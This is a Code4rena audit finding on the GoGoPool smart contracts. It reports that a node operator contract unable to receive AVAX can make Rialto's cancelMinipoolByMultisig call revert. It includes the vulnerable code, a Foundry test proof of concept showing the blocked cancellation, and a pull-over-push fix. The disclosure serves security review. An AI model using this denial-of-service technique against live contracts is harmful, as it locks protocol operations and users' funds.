 ## Tags

- bug
- 2 (Med Risk)
- primary issue
- selected for report
- sponsor confirmed
- fix security (sponsor)
- M-07

# [Rialto may not be able to cancel minipools created by contracts that cannot receive AVAX](https://github.com/code-423n4/2022-12-gogopool-findings/issues/623) 

# Lines of code

https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L664


# Vulnerability details

## Impact
A malicious node operator may create a minipool that cannot be cancelled. 
## Proof of Concept
Rialto may cancel a minipool by calling [cancelMinipoolByMultisig](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L520), however the function sends AVAX to the minipool owner, and the owner may block receiving of AVAX, causing the call to `cancelMinipoolByMultisig` to fail ([MinipoolManager.sol#L664](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L664)):
```solidity
function _cancelMinipoolAndReturnFunds(address nodeID, int256 index) private {
  ...
  address owner = getAddress(keccak256(abi.encodePacked("minipool.item", index, ".owner")));
  ...
  owner.safeTransferETH(avaxNodeOpAmt);
}
```

The following PoC demonstrates how calls to `cancelMinipoolByMultisig` can be blocked:
```solidity
function testCancelMinipoolByMultisigDOS_AUDIT() public {
  uint256 duration = 2 weeks;
  uint256 depositAmt = 1000 ether;
  uint256 avaxAssignmentRequest = 1000 ether;
  uint128 ggpStakeAmt = 200 ether;

  // Node operator is a contract than cannot receive AVAX:
  // contract NodeOpContract {}
  NodeOpContract nodeOpContract = new NodeOpContract();
  dealGGP(address(nodeOpContract), ggpStakeAmt);
  vm.deal(address(nodeOpContract), depositAmt);

  vm.startPrank(address(nodeOpContract));
  ggp.approve(address(staking), MAX_AMT);
  staking.stakeGGP(ggpStakeAmt);
  MinipoolManager.Minipool memory mp1 = createMinipool(depositAmt, avaxAssignmentRequest, duration);
  vm.stopPrank();

  bytes32 errorCode = "INVALID_NODEID";
  int256 minipoolIndex = minipoolMgr.getIndexOf(mp1.nodeID);
  store.setUint(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".status")), uint256(MinipoolStatus.Prelaunch));

  // Rialto trices to cancel the minipool created by the node operator contract but the transaction reverts since
  // the node operator contract cannot receive AVAX.
  vm.prank(address(rialto));
  // FAIL: reverted with ETH_TRANSFER_FAILED
  minipoolMgr.cancelMinipoolByMultisig(mp1.nodeID, errorCode);
}
```

## Tools Used
Manual review
## Recommended Mitigation Steps
Consider using the [Pull over Push pattern](https://fravoll.github.io/solidity-patterns/pull_over_push.html) to return AVAX to owners of minipools that are canceled by Rialto.